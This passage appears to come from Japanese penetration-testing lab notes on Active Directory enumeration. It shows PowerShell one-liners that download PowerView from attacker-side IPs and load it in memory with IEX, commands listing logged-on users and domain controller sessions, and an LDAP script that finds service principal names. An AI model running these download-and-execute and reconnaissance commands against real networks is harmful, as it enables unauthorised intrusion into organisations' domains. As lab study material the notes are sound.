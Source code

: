 ```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.45.211/PowerView.ps1','C:\Users\public\PowerView.ps1')"
```

```cmd
powershell
Import-Module .\PowerView.ps1
```

```powershell
# 端末のログイン情報
Get-NetLoggedon -ComputerName client251
```

* -ComputerNameオプション：対象のワークステーションまたはサーバーを指定

```powershell
# ドメインコントローラー上のアクティブなセッション
Get-NetSession -ComputerName dc01
```

```cmd
# インメモリーで実施
powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
```

![image-20230220230444452](img/ActiveDirectory_enume/image-20230220230444452.png)

※末尾に実行したコマンドを付ける



### SPNの調査

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```
